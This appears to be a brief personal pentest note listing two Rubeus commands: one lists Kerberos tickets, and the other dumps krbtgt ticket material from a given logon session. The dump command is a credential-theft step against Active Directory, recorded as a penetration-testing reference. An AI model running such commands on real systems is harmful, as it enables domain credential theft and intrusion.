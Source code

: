 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Rubeus

~~~PowerShell
./rubeus.exe klist
~~~

~~~PowerShell
./rubeus.exe dump,/service:krbtgt,/luid:LUID(0x26b1ba),/nowrap
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
